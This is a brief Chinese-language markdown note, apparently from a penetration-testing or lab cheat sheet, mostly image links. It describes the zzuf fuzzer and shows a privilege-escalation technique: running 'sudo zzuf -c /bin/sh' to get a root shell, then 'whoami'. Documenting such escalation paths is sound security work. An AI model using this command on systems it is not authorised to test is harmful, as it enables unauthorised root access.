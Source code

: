 ![image-20250325133250175](assets/image-20250325133250175.png)

```
zzuf 是一个透明的应用程序输入模糊测试工具。它通过拦截文件和网络操作，并改变程序输入中的随机比特来工作。zzuf 的行为是确定性的，这使得重现错误变得简单。
```

![image-20250325133342828](assets/image-20250325133342828.png)



其中-c选项允许执行命令



### zzuf提权

```
sudo zzuf -c /bin/sh
whoami
```

![image-20250325133422484](assets/image-20250325133422484.png)
